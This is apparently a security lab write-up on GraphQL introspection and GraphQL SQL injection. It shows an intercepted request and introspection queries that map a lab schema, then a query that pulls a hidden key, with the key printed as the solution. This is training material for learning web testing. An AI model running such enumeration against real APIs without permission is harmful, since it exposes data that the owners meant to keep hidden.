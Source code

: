 ## Green Badge

### GraphQL Introspection

References

- https://graphql.org/learn/
- https://graphql.org/learn/introspection/

Notes

It's often useful to ask a GraphQL schema for information about what queries it supports. GraphQL allows us to do so using the introspection system!

Intercept on projects

```
POST http://ptl-e903a9b4-72b7b45b.libcurl.so/graphql HTTP/1.1
Accept: application/json, text/plain, */*
Content-Type: application/json

{"operationName":"projects","variables":{"offset":10},"query":"query projects($offset: Int) {\n  projects(offset: $offset, limit: 10) {\n    id\n    name\n    description\n    __typename\n  }\n}\n"}
```

GraphiQL interface

1

```
{
  __type(name: "Query") {
    name
    kind
  }
}
```

3

```
{
  __type(name: "Query") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

4

```
{
  ptlabkeys
  {
      id
      value
      __typename
  }
}
```

Solution

```
{
  "data": {
    "ptlabkeys": [
      {
        "id": "1",
        "value": "78ce1c9e-b8cc-4385-9fda-2c8e16dbc349",
        "__typename": "PtlabKey"
      }
    ]
  }
}
```

### GraphQL: SQL Injection

```
{"operationName":"projects","variables":{"offset":10},"query":"query projects($offset:Int) { projects(offset:$offset, limit:10) { id name description __typename  }}"}
```

```
{"query":"{__schema{queryType { name }}}"}
```

```
{"query":"{__schema{queryType { name,fields {name} }}}"}
```



